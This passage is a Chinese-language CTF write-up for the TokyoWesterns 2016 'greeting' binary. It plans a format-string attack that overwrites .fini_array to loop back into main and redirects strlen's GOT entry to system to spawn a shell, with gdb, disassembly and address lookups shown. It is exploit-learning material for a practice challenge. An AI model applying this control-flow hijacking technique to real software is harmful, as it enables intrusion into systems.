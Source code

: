 另外，IDA 在某处调用了 system 函数，参数不是 /bin/sh
```c
int nao()
{
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  return system("echo \"Hello, I'm nao\"!");
}
```

**思路：**
常规思路不起效，本例考察针对` 终止节.fini_array` 
- 利用格式化字符串覆写 `.fini_array终止节`指针-- 从而劫持程序流程
- 二次覆写某个函数地址为 system，随后传入"/bin/sh"，因此要求这个被覆写的函数和传入的内容相关 本例为 strlen


gdb 查看当前程序的 `.fini_array`
```shell
gef➤  info file
Symbols from "/home/pitta/workspace/pwn_learn/rec0rd/Tokyowesterns 2016 greeting/greeting".
Native process:
        Using the running image of child Thread 0xf7fc34c0 (LWP 43903).
        While running this, GDB does not access memory from...
Local exec file:
        `/home/pitta/workspace/pwn_learn/rec0rd/Tokyowesterns 2016 greeting/greeting', 
        ...
        0x08049934 - 0x08049938 is .fini_array  # pwn
        ...
```


将 `.fini_array` 覆写成 main 中的 getline 调用点，这样每次 main 终止之前都会 loop back 到这个位置(0x08048614)
```shell
gef➤  disas main
Dump of assembler code for function main:
   0x080485ed <+0>:     push   ebp
   0x080485ee <+1>:     mov    ebp,esp
   0x080485f0 <+3>:     and    esp,0xfffffff0
   0x080485f3 <+6>:     sub    esp,0xa0
   0x080485f9 <+12>:    mov    eax,gs:0x14
   0x080485ff <+18>:    mov    DWORD PTR [esp+0x9c],eax
   0x08048606 <+25>:    xor    eax,eax
   0x08048608 <+27>:    mov    DWORD PTR [esp],0x80487b3
   0x0804860f <+34>:    call   0x8048450 <printf@plt>
   0x08048614 <+39>:    mov    DWORD PTR [esp+0x4],0x40     # target loopback
   0x0804861c <+47>:    lea    eax,[esp+0x5c]
   0x08048620 <+51>:    mov    DWORD PTR [esp],eax
   0x08048623 <+54>:    call   0x8048679 <getnline>
```


涉及到的几个地址：
- .fini_array:  0x08049934  ->  gdb 中 info file
- getnline:     0x08048614  ->  gdb 中 disas main 得到
- strlenGOT:    0x08049a54  ->  readelf -r ./greeting
- systemCall:   0x08048490  ->  objdump -D greeting | grep system
